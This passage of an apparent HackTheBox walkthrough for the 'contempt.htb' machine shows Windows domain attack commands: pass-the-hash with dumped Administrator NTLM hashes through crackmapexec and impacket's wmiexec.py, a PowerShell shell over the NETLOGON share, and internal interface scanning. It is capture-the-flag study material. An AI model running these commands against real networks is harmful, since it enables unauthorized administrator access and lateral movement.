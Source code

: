 We now have all the hashes, we can impersonate anyone we want using pass-the-hash.

![](https://i.imgur.com/mlWbgB9.jpg)


#### Getting a shell

Let's grab the most privileged user : Administrator. Since I didn't saw the WinRM port at the first time, we need to enumerate the SMB shares in order to see if we have access to `C$`.

```bash
crackmapexec smb dc01.contempt.htb -d 'contempt.htb' -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' --shares
```

![](https://i.imgur.com/d5hR7ec.png)

No `C$` here, but no worries. We have the **write** permission on `NETLOGON` ! So we can use for exemple `wmiexec.py` from [impacket](https://github.com/fortra/impacket).

```bash
wmiexec.py 'contempt.htb/Administrator@dc01.contempt.htb' -hashes ':8845ad387f66869ab9768c8a7b08b36f' -dc-ip 10.129.235.160 -share NETLOGON -shell-type powershell
```

![](https://i.imgur.com/M2EQjd5.png)

```powershell
type C:\Users\Administrator\Desktop\root.txt
```

![](https://i.imgur.com/NWBbb4c.png)

Hmmm, this is not quite common. Usualy when playing HackTheBox, you first have the user.txt and then the root.txt once you've finished the box !
Since I cannot locate the user.txt on the machine, I'll ask to the admins.

![](https://i.imgur.com/aheiY42.png)

Not on the Windows filesystem ? 🤔


### User

#### Recon

Since we do not know yet where the user.txt is located, let's do some enumeration once again.

We could use crackmapexec ioxidresolver module to scan the active interfaces of the machines, maybe there is another machine in the internal network.

```bash
crackmapexec smb dc01.contempt.htb -u 'Administrator' -H '8845ad387f66869ab9768c8a7b08b36f' -M ioxidresolver
```

![](https://i.imgur.com/HkqrBjD.png)
